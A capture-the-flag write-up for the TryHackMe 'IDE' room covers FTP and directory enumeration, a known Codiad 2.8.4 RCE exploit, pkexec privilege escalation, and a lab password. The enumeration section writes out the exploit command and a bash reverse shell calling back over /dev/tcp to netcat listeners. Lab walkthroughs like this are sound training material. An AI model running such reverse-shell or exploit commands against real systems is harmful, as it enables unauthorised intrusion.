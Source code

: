 ```yaml
---
title: THM IDE writeup
description: Tryhackme IDE room writeup
authors: ["shivam"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/3ce8e9c4d1da5eefef690e11f75798c7.png
slug: ide
tags: ["FTP", "RCE", "codiac", "pkexec"]
---
```


Hello everyone,

Today we are going to solve IDE room from tryhackme. we will see about FTP enumration,codiac RCE and privilege escalation with pkexec SUID.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/3ce8e9c4d1da5eefef690e11f75798c7.png)

<!--truncate-->

## Nmap results

```bash
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.4.105
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.38 seconds
------------------------------------------------------------
```

## Gobuster results

```bash

┌──(kali㉿kali)-[~/Documents/THM/IDE]
└─$ gobuster dir -u http://10.10.86.172 -w /usr/share/wordlists/dirb/common.txt -t 30 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.172
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/19 12:35:23 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 277]
===============================================================
2021/10/19 12:35:53 Finished
===============================================================
```

--> Got this in File named `-` in FTP

```bash
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.

```

--> I found the login page at the port `62337`

## Gobuster results for port 62337

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.172:62337
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/19 12:44:19 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/components           (Status: 301) [Size: 326] [--> http://10.10.86.172:62337/components/]
/data                 (Status: 301) [Size: 320] [--> http://10.10.86.172:62337/data/]
/favicon.ico          (Status: 200) [Size: 1150]
/index.php            (Status: 200) [Size: 5239]
/js                   (Status: 301) [Size: 318] [--> http://10.10.86.172:62337/js/]
/languages            (Status: 301) [Size: 325] [--> http://10.10.86.172:62337/languages/]
/lib                  (Status: 301) [Size: 319] [--> http://10.10.86.172:62337/lib/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.86.172:62337/plugins/]
/server-status        (Status: 403) [Size: 280]
/themes               (Status: 301) [Size: 322] [--> http://10.10.86.172:62337/themes/]
===============================================================
2021/10/19 12:45:04 Finished
===============================================================
```

## Enumeration

--> i tried default credentials but it didn't worked then i tried `john:password` and i got logged in !

--> I also found one exploit for RCE in codiac `2.8.4`

- https://www.exploit-db.com/exploits/49705

--> I used this command

```bash
python exploit.py http://10.10.86.172:62337/ john password 10.9.4.105 4444 linux
echo 'bash -c "bash -i >/dev/tcp/10.9.4.105/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
```

--> And i got the reverse shell !

## Privesc

After that i searched for the password for user `drac` but i didn't found anything. but after some time i found one command in `.bash_history`

![](Attachments/Pastedimage20211019141311.png)

--> it might be a ssh password because mysql is not running on this machine!

And i tried this password for drac and got the SSH shell !

`drac:Th3dRaCULa1sR3aL`

--> I found some SUID files and in that files i found `/usr/bin/pkexec` vulnertable to configuration files

Then i followed this article and got the root shell :

https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe

![](Attachments/Pastedimage20211019150647.png)

---

## Resources

- https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit
- https://www.youtube.com/watch?v=RL0Pkoge-xI
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe
